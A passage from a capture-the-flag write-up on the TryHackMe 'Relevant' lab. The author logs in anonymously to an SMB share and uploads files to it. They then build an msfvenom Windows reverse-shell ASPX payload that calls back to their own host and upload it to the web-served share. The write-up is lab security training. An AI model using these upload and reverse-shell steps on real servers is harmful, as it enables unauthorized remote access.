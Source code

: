 ```
![image](https://user-images.githubusercontent.com/87468669/194743758-f6355c5a-53ea-468b-8202-b275ac2be83e.png)

worked. let's check if we can upload a file into the smb server 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/Relevant]
└─$ smbclient //10.10.166.204/nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> put fullmap.txt 
putting file fullmap.txt as \fullmap.txt (4.4 kb/s) (average 4.4 kb/s)
smb: \> ls
  .                                   D        0  Sun Oct  9 02:30:23 2022
  ..                                  D        0  Sun Oct  9 02:30:23 2022
  fullmap.txt                         A     2372  Sun Oct  9 02:30:23 2022
  passwords.txt                       A       98  Sat Jul 25 10:15:33 2020

                7735807 blocks of size 4096. 5137495 blocks available
smb: \> 
smb: \> 

```

we have upload permission, let's check the uploaded file in the browser 

![image](https://user-images.githubusercontent.com/87468669/194743915-78688677-2619-4981-96f2-302b04299a0e.png)

Great we can see our uploaded content, let's create a reverse shell and upload it through the smb Server. we would be using msfvenom payload

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.12.222 LPORT=9999 -f aspx > violence.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3432 bytes

```

let's upload it to the smb share

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/Relevant]
└─$ smbclient //10.10.166.204/nt4wrksv -N 
Try "help" to get a list of possible commands.
smb: \> put violence.aspx 
putting file violence.aspx as \violence.aspx (6.8 kb/s) (average 6.8 kb/s)
smb: \> ls
  .                                   D        0  Sun Oct  9 02:37:00 2022
  ..                                  D        0  Sun Oct  9 02:37:00 2022
  fullmap.txt                         A     2372  Sun Oct  9 02:30:23 2022
  passwords.txt                       A       98  Sat Jul 25 10:15:33 2020
  violence.aspx                       A     3432  Sun Oct  9 02:37:01 2022
